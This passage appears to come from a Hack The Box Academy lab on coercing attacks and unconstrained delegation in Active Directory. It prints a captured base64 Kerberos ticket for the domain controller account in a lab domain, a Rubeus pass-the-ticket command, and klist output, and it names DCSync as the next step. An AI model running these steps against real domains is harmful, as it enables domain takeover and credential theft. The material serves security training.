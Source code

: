```powershell-session
eYRTMeW+lvz1bBgdgK/wlYMS7J99F1V/r6K8zdO7pQ0Zj216DfA42QINPswVL+89gy7PLLm5aYlw8nlbBdvTZrPbeOhtvdBy/pFB    fxrjHA+fW34/Yk+9k6oSPXCaCQ/Rd1qZ/P57/0MDUYRlDs5EYOOxxGQPVFbOqhbG414vGRbi39ALj/MkYG629kCEb9K89p5teo6f
7w/4M6Ytun16sG3GxsWDG6dlZP+fmmOr0nwdXgvT28NQxQ3EEMErX+BojUY6DdRBH2u3fcv1KOA5K7MDma+cVLaa0YjSYZ2IDRaC    0JcgcUexd6EfQPtSnikaA/zzYmu/PSYVXlcg7cFULJIiPuN4f9VlDlVOqj8C3xCwtYo4zRklLESUES9tGK/VfsmN0Q/Fx5ULIa7y
UND/d1HlQ+R6Fnh2GGUPk+LlVw+ScD0kf2nmmlsIwhnGmscpiFs1lprX35Khlx/y5+v9S7bdokZujPpyZactQ4wdfRK++bOWo2ao    Ewrzjuq199JnTQHbxkqGgeKQedOPxOhDccQLYTm44wH73JuE+XoGKmdGbgXfjSBFlTinP9mvZA12NkQupnGYVzJ2rS1T0nf2VVUW
MfIgh8Nz4xYvDHV1iIV4ZrLI7u7ZwJtrlESgO0H0d/k6CpLxo5L7kzhkU+MJggdUFJvS3HskTxZmewEwSdKJn21YfAG1Q6X0nFqk
HdK3RUvxXcycwMvWdfYH2AW06+98q5h+TSJQrMcrp9gT+khLPD4KL2n6+cvC3BVHqge5Nc16LhW7kcNp+JcIzknwAsCZlaXzhz3X
K78ooLfZGaKGoNnDWLUQpYToVgXXSO53HJ3Vgl0MwctV7l+gJdwMtac0VVhH8EAndeSPnEcNOX8mr/30k+9GwM1wtFQNFB03CdoA    qRJBjyFw1h1KKuc61PTWuxVLwGmezshekwoSLOJ7V9G9qNpVQl0AgtTK2SHeobItuD4rhDc3/0jJ4LzsXJieYbLK7dtVfxYtSbeu
ZqXhd7HcSq5SN4LOmEP1tScir+shxQC+hbs3oYx/rHfj8GDDEZ8UwY6I4JF4pQsApKOB3zCB3KADAgEAooHUBIHRfYHOMIHLoIHI    MIHFMIHCoCswKaADAgESoSIEIDs9gBc+2myj4I7mPmXH542vha3A2zfkHbm/RxnK4oMSoQ0bC0VBR0xFLkxPQ0FMohEwD6ADAgEB
oQgwBhsEREMxJKMHAwUAYKEAAKURGA8yMDIyMTIxODIyMzAyMVqmERgPMjAyMjEyMTkwODMwMjFapxEYDzIwMjIxMjI0MDgyODM5
WqgNGwtFQUdMRS5MT0NBTKkgMB6gAwIBAqEXMBUbBmtyYnRndBsLRUFHTEUuTE9DQUw=

[*] Ticket cache size: 5
```

![DC1 TGT](https://academy.hackthebox.com/storage/modules/176/A11/DCTGT.png)

We can use this TGT for authentication within the domain, becoming the Domain Controller. From there onwards, DCSync is an obvious attack (among others).

One way of using the abovementioned TGT is through Rubeus, as follows.

  Coercing Attacks & Unconstrained Delegation

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Import Ticket
[+] Ticket successfully imported!
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x101394

Cached Tickets: (1)

#0>     Client: DC1$ @ EAGLE.LOCAL
        Server: krbtgt/EAGLE.LOCAL @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 4/21/2023 8:54:04 (local)
        End Time:   4/21/2023 18:54:04 (local)
        Renew Time: 4/28/2023 8:54:04 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
```